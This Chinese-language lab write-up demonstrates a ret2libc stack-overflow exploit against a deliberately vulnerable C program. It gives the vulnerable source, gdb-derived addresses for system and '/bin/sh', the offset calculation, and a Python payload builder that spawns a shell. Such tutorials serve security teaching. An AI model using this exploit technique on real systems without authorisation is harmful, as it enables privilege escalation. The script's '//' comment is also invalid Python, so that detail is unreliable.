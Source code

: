 上一个实验中我们关闭了栈的不可执行保护，实现了栈上的代码执行。但是现实中编译器编译的代码默认都开启了栈不可执行，之前的攻击难以奏效。那么怎样用其他的方法实现 shell 代码执行呢？一种攻击方法是 ret-to-libc，也就是将函数地址跳转到动态链接库 libc 中的 system 函数地址，来实现控制流转移。
来看以下有漏洞可利用的源代码：
```c
// buf3.c
// gcc -o buf3 buf3.c -fno-stack-protector

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void vul(char *str){
    char buffer[36];
    // buffer overflow
    strcpy(buffer, str);
}

int main(int argc, char **argv){
    char str[128];
    FILE *file;
    file = fopen("attack_input3", "r");
    fread(str, sizeof(char), 128, file);
    vul(str);
    printf("Returned Properly\n");
    return 0;
}
```
代码部分和上一题并没有任何不同，只是在编译时关闭了栈可执行选项，这样之前的攻击方式不奏效了。
但是我们的攻击目标仍然是通过缓冲区溢出，覆写 vul 函数的返回地址，使得它跳转到libc 库中的 system 函数，而且需要传的参数为字符串 "/bin/sh" 来启动一个 shell，实现提权。具体而言，栈的布局应如下所示：
![](https://cdn.nlark.com/yuque/0/2024/jpeg/43291115/1716288582969-eef657b9-9e3f-48e4-9749-0577176c2605.jpeg)
首先我们要明确一点，在 ret2libc 中，程序执行之后，system 有关代码已经被加载到了内存代码段中，所以接下来我们要找到他的地址。一种最简单的方法是 gdb 调试，用 p system 指令来确定地址。
![Pwnhub-2024-05-21-18-27-01.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1716287239836-ff003c4b-575b-4c4a-ba4e-25dedcfd8b64.png#averageHue=%235d6140&clientId=u77a3053e-f768-4&from=ui&height=660&id=u7d97a74b&originHeight=1440&originWidth=2560&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2153688&status=done&style=none&taskId=u16e56749-2164-41e1-ac57-f279be5435d&title=&width=1174)
这样我们拿到了地址是 0xf7c48170。
第二步工作是找到 "/bin/sh" 字符串的所在地址，这一步可以用 IDA 静态分析，也可以用 gdb 查找。由于虚拟机没有安装 IDA，就用 gdb 查找吧。
![Pwnhub-2024-05-21-18-38-16.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1716288373715-af16ffcf-d464-43dd-ba1e-6c0c766f58d1.png#averageHue=%235c603f&clientId=ubfff2a84-5189-4&from=ui&height=668&id=u4d81d0ec&originHeight=1440&originWidth=2560&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2167035&status=done&style=none&taskId=u941943a4-2984-43ec-b11c-6f2db4392d7&title=&width=1187)
这样字符串的地址也找到了：0xf7dbd0d5。
要注意的是，system 后面应该带有一个 system 函数的返回地址，但是我们并不关心这个后续跳转，只需要拿到权限即可，所以 ret 地址可以随意赋值。
最后我们还需要确定 buffer 和 ret 地址的距离，确保覆写有效。由于漏洞代码相同，ASLR 也是关闭的，所以这一步就和之前一致了。
ebp = 0xffffcfb8
buffer 起始地址 = ebp - 0x2c = 0xffffcf8c
于是 buffer 到 ret 偏移量 offset = ebp + 4 - buffer = 0x30
构造以下 Payload：
```python
import sys
import struct
from pwn import *

offset = 0x30 # modify it
system_addr = 0xf7c48170 # modify it
binsh_addr =  0xf7dbd0d5 # modify it
ret = 0xdeadbeef
## Put the shellcode at the begin
buf = (offset - 4) * b'\x90' + 2 * struct.pack('<I', system_addr) + struct.pack('<I', ret) + struct.pack('<I', binsh_addr)
buf += (128 - len(buf)) * b'a' // 填满128字节
file = open('attack_input3', 'wb')
file.write(buf)
file.close()
```
运行，拿到 shell！
![Pwnhub-2024-05-21-19-01-24.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1716289314904-f0ab6992-23bc-491b-ac33-361c720318f7.png#averageHue=%235f6141&clientId=u09a5df98-4e26-4&from=ui&height=662&id=u24c0cfaa&originHeight=1440&originWidth=2560&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2006557&status=done&style=none&taskId=u60fcc1f7-9b4d-47f8-9630-c4bcea99a4d&title=&width=1177)
